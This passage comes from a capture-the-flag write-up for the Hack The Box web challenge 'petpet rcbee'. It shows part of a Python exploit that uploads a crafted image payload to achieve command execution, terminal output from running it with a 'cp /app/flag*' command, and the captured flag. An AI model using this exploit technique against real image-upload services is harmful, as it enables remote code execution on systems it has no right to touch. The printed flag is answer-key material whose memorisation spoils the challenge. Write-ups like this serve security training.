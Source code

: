 ```python

files = {'file': ("image.jpg", exploit, 'image/jpg')}

url = f'http://{target}:{port}/api/upload'
print(f"Uploading file to {url}")

resp = requests.post(url, files=files, proxies={"http":"http://127.0.0.1:8080"})

print(resp.content)
```

Once uploaded the payload is executed and the flag copied inside the specified path:

```bash
┌──(kali㉿kali)-[~/…/HTB/Challenge/Web/web_petpet_rcbee]
└─$ python3 exploit.py 157.245.46.136 31916 'cp /app/flag* /app/application/static/petpets/flag.txt'
Preparing the exploit...
Uploading file to http://157.245.46.136:31916/api/upload
b'{"image":"static/petpets/3ffba1ff77afa897ed95983b2197.gif","status":"success"}\n'

┌──(kali㉿kali)-[~/…/HTB/Challenge/Web/web_petpet_rcbee]
└─$ curl http://157.245.46.136:31916/static/petpets/flag.txt
HTB{c0mfy_bzzzzz_rcb33s_v1b3s}
```

# Flag

>[!success]
>`HTB{c0mfy_bzzzzz_rcb33s_v1b3s}`